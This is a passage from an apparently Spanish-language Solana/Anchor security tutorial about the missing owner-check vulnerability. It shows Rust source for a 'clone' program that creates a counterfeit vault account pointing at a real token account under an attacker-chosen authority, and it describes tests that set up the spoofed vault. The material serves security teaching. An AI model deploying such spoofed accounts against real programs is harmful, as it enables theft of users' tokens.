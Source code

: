 El programa de **clone** tiene una sola instrucción

- **initialize_vault** inicia una cuenta de "bóveda" que imita la cuenta de bóveda del programa **owner_check** . Almacena la dirección de la cuenta del token de la bóveda real, pero permite que el usuario malintencionado coloque su propia cuenta de autoridad.

```Rust
use anchor_lang::prelude::*;
use anchor_spl::token::TokenAccount;

declare_id!("DUN7nniuatsMC7ReCh5eJRQExnutppN1tAfjfXFmGDq3");

#[program]
pub mod clone {
    use super::*;

    pub fn initialize_vault(ctx: Context<InitializeVault>) -> Result<()> {
        ctx.accounts.vault.token_account = ctx.accounts.token_account.key();
        ctx.accounts.vault.authority = ctx.accounts.authority.key();
        Ok(())
    }
}

#[derive(Accounts)]
pub struct InitializeVault<'info> {
    #[account(
        init,
        payer = authority,
        space = 8 + 32 + 32,
    )]
    pub vault: Account<'info, Vault>,
    pub token_account: Account<'info, TokenAccount>,
    #[account(mut)]
    pub authority: Signer<'info>,
    pub system_program: Program<'info, System>,
}

#[account]
pub struct Vault {
    token_account: Pubkey,
    authority: Pubkey,
}
```

## 2. Instrucciones para la prueba **insecure_withdraw**

El archivo de prueba incluye una prueba para invocar la instrucción **initialize_vault** en el programa **owner_check** utilizando la billetera del proveedor como **authority** y luego acuña 100 tokens en la cuenta de token.

El archivo de prueba también incluye una prueba para invocar la instrucción **initialize_vault** en el programa **clone** para inicializar una cuenta de **vault** falsa almacenando la misma cuenta de **tokenPDA** , pero a una **authority** diferente. Tenga en cuenta que aquí no se acuñan nuevos tokens.

